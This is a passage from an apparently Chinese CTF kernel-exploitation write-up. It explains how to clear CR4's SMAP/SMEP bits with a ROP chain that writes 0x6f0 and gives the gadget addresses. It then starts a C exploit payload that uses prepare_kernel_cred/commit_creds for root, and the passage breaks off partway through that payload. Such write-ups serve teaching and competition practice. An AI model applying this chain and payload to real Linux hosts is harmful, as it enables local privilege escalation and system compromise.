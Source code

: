 很明显，在程序中 cr4 寄存器的值为如下值:  
`01100000000011011110000`  
需要将第 20、21 位置为 0，则变为如下值:  
`00000000000011011110000`  
该值转为 0x6f0，于是只需要搞个 rop 利用链将 cr4 的值赋值为 0x6f0 即可. 

```c
//修改 cr4 的值为 0x6f0 以关闭 SMAP、SMEP
buf[i ++] = 0xffffffff81045600;  // mov rax,rbx; pop rbx; pop rbp; ret;
buf[i ++] = 0x6f0;
buf[i ++] = 0x10;
buf[i ++] = 0xffffffff81045600;  // mov rax,rbx; pop rbx; pop rbp; ret;
buf[i ++] = 0x6f0;
buf[i ++] = 0;
buf[i ++] = 0xffffffff81003cf8;  // mov cr4,rax; pop rbp; ret;
buf[i ++] = 0;
buf[i ++] = &templine;
```

修改后的 cr4 寄存器如下所示，可以观察到已经关闭了 SMAP、SMEP

![qwb](/image/kernelpwn/2.png)  

payload:  
```c
#define _GNU_SOURCE
#include <sys/mman.h>
#include <sys/wait.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <string.h>
#include <stdlib.h>
#include <arpa/inet.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <sys/types.h>
#include <stdio.h>
#include <sys/ipc.h>
#include <sys/msg.h>
#include <sys/socket.h>

#define KERNCALL __attribute__((regparm(3)))

// cat /proc/kallsyms | grep "prepare_kernel_cred"
void* (*prepare_kernel_cred)(void*) KERNCALL = (void*) 0xffffffff810779b0; // TODO:change it
// cat /proc/kallsyms | grep "commit_creds"
void (*commit_creds)(void*) KERNCALL = (void*) 0xffffffff81077620; // TODO:change it

unsigned long long user_cs, user_ss, user_rflags, user_sp;
unsigned long long base_addr, canary;

int fd;
int BUFF_SIZE = 96;

void save_stat() {
	asm(
		"movq %%cs, %0;"
		"movq %%ss, %1;"
		"movq %%rsp, %2;"
		"pushfq;"
		"popq %3;"
	: "=r" (user_cs), "=r" (user_ss), "=r" (user_sp), "=r" (user_rflags) : : "memory");
```
